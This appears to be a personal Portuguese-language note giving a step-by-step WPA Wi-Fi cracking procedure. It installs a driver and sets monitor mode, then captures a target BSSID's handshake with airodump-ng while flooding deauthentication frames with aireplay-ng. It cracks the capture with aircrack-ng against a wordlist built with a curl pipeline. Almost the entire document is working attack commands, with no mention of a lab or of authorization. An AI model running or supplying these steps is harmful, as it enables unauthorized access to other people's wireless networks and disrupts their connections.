 git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu" to  "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu

iwconfig

---

sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor

sudo ifconfig wlan0 up
iwconfig
---
---
- pegando o bssid

sudo airodump-ng wlan0

- aqui deve ser pego o bssid e o ch (channel)

---
- verificando apenas a rede

sudo airodump-ng wlan0 -d 8C:44:4F:6E:85:02

---
- no primeiro terimnal

sudo airodump-ng -w hack1 -c 1 -d 8C:44:4F:6E:85:02
  - ou
sudo airodump-ng -w hack1 -c 1 --bssid 8C:44:4F:6E:85:02

- -w é o nome do arquivo
- -c é o ch (channel)
- -d bssid

- no segundo terminal

sudo aireplay-ng --deauth 0 -a 8C:44:4F:6E:85:02 wlan0

- entao volte no primero terminal e la deve ter adicionado algo no fim da primeira linha
- assim podemos parar o segundo terminal (Ctrl + C)
- caso nao apareca, tente conectar na rede
- assim no primeiro terminal, no fim da linha, deve ter algo como <WPA handshake> bssid>

---
- agora opdemos usar o wireshark no nosso arquivo hack1.cap
wireshark hack1.cap
---

- agora colocaremos o wlan0 em modo managed
sudo airmon-ng stop wlan0
  - ou
sudo iwconfig wlan mode managed

---

aircrack-ng hack1.cap -w /home/kali/Descktop/wordlist.txt


---

- https://www.youtube.com/watch?v=WfYxrLaqlN8
- https://www.youtube.com/watch?v=tYnjMiTTdms

---

curl "https://github.com/santosfabin/WP2/blob/main/README.md" | sed 's/[^a-zA-Z]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > /tmp/wordlist.txt

---

- para desconpactar um arquivo .gz use
gunzip file.txt.gz
